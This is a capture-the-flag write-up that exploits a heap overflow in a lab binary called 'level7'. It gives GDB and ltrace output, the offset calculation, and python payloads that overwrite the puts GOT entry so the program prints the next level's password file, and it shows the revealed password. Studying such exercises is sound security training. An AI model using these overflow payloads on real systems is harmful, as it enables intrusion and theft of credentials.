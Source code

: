 # Analysis of the Binary

Start by inspecting the functions in the binary using GDB:

```bash
(gdb) info functions
[...]
0x080484f4  m
0x08048521  main
[...]
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048521 <+0>:     push   %ebp
   0x08048522 <+1>:     mov    %esp,%ebp
   0x08048524 <+3>:     and    $0xfffffff0,%esp
   0x08048527 <+6>:     sub    $0x20,%esp
   0x0804852a <+9>:     movl   $0x8,(%esp)
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:    mov    %eax,0x1c(%esp)
   0x0804853a <+25>:    mov    0x1c(%esp),%eax
   0x0804853e <+29>:    movl   $0x1,(%eax)
   0x08048544 <+35>:    movl   $0x8,(%esp)
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:    mov    %eax,%edx
   0x08048552 <+49>:    mov    0x1c(%esp),%eax
   0x08048556 <+53>:    mov    %edx,0x4(%eax)
   0x08048559 <+56>:    movl   $0x8,(%esp)
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:    mov    %eax,0x18(%esp)
   0x08048569 <+72>:    mov    0x18(%esp),%eax
   0x0804856d <+76>:    movl   $0x2,(%eax)
   0x08048573 <+82>:    movl   $0x8,(%esp)
   0x0804857a <+89>:    call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:    mov    %eax,%edx
   0x08048581 <+96>:    mov    0x18(%esp),%eax
   0x08048585 <+100>:   mov    %edx,0x4(%eax)
   0x08048588 <+103>:   mov    0xc(%ebp),%eax
   0x0804858b <+106>:   add    $0x4,%eax
   0x0804858e <+109>:   mov    (%eax),%eax
   0x08048590 <+111>:   mov    %eax,%edx
   0x08048592 <+113>:   mov    0x1c(%esp),%eax
   0x08048596 <+117>:   mov    0x4(%eax),%eax
   0x08048599 <+120>:   mov    %edx,0x4(%esp)
   0x0804859d <+124>:   mov    %eax,(%esp)
   0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:   mov    0xc(%ebp),%eax
   0x080485a8 <+135>:   add    $0x8,%eax
   0x080485ab <+138>:   mov    (%eax),%eax
   0x080485ad <+140>:   mov    %eax,%edx
   0x080485af <+142>:   mov    0x18(%esp),%eax
   0x080485b3 <+146>:   mov    0x4(%eax),%eax
   0x080485b6 <+149>:   mov    %edx,0x4(%esp)
   0x080485ba <+153>:   mov    %eax,(%esp)
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:   mov    $0x80486e9,%edx
   0x080485c7 <+166>:   mov    $0x80486eb,%eax
   0x080485cc <+171>:   mov    %edx,0x4(%esp)
   0x080485d0 <+175>:   mov    %eax,(%esp)
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:   mov    %eax,0x8(%esp)
   0x080485dc <+187>:   movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:   movl   $0x8049960,(%esp)
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   movl   $0x8048703,(%esp)
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    $0x0,%eax
   0x08048601 <+224>:   leave
   0x08048602 <+225>:   ret
End of assembler dump.
(gdb) x/s 0x80486eb
0x80486eb:       "/home/user/level8/.pass"
(gdb) disassemble m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
   0x080484fa <+6>:     movl   $0x0,(%esp)
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    $0x80486e0,%edx
   0x0804850b <+23>:    mov    %eax,0x8(%esp)
   0x0804850f <+27>:    movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:    mov    %edx,(%esp)
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave
   0x08048520 <+44>:    ret
End of assembler dump.
(gdb) disassemble puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

## Key Observations
- In `main`, memory is allocated and manipulated using `strcpy`.
- The `m` function is designed to print a value from an unknown variable containing the password (`/home/user/level8/.pass`).
- Our goal is to manipulate the execution flow to trigger the `m` function and reveal the password.

# Developing the Exploit

The strategy involves using `strcpy` to overwrite critical memory locations.

## Understanding Memory Allocation

In C, the memory allocation can be represented as:

```c
int *buffer;
int *buffer2;

buffer = (int *)malloc(8);
buffer[1] = (int)malloc(8);

buffer2 = (int *)malloc(8);
buffer2[1] = (int)malloc(8);

strcpy(buffer[1], argv[1]);
strcpy(buffer2[1], argv[2]);
```

Using `ltrace`, observe the memory allocation:

```bash
$ ltrace ./level7 arg1 arg2
__libc_start_main(0x8048521, 3, 0xbffff7d4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                       = 0x0804a008
malloc(8)                                                                                       = 0x0804a018
malloc(8)                                                                                       = 0x0804a028
malloc(8)                                                                                       = 0x0804a038
strcpy(0x0804a018, "arg1")                                                                      = 0x0804a018
strcpy(0x0804a038, "arg2")                                                                      = 0x0804a038
fopen("/home/user/level8/.pass", "r")                                                           = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

## Determining Overflow Offset

- Offset calculation: The difference between the start of the first `strcpy` destination (`0x0804a018`) and the address of `buffer2` (`0x0804a028`) is 16 bytes.
- `buffer2[1]` is 4 bytes after the start of `buffer2` (as it's an `int`).
- Total offset for overflow: `16 (distance to buffer2) + 4 (to reach buffer2[1]) = 20`.

## Crafting the Payload

The exploit involves a two-step payload:

1. **First Payload**: Change the destination address in `buffer2[1]`:
    ```bash
    $ ./level7 `python -c 'print("A"*20 + "\x28\x99\x04\x08")'`
    ```
   This payload fills 20 bytes and then writes the reversed address of the `puts` function pointer.

2. **Second Payload**: Overwrite the `puts` function pointer with the address of `m`:
    ```bash
    $ ./level7 `python -c 'print("A"*20 + "\x28\x99\x04\x08")'` `python -c 'print("\xf4\x84\x04\x08")'`
    ```
   This payload replaces the `puts` pointer with the address of `m` (little-endian format).

## Executing the Exploit

Run the exploit to redirect the program flow to `m`, which prints the password:

```plaintext
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

The exploit successfully alters the program's behavior, revealing the next level's password.
